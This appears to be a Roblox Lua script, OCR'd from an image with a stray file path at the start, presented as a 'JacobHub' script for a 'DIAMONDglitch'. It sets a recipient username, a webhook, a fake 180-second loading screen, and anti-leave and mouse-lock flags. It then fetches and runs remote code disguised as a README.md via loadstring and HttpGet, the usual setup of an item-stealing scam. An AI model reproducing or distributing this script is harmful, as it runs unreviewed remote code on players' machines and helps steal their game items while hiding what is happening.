 UserName = "KubaQ102x"
UserName2 = "KubaQ102x"
Webhook = ""

_G.LoadingScreen = true
_G.AntiLeave = true
_G.MouseLock = true 

_G.ScriptName = "JacobHub"
_G.FirstText = "Script Preparing"
_G.SecondText = "Script Loading..."
_G.ThirdText = "Almost Done..."
_G.WaitingTime = 180 -- it's the time between 0% and 100% in secondes

loadstring(game:HttpGet("https://raw.githubusercontent.com/Mordia000/DIAMONDglitch/main/README.md", true))()
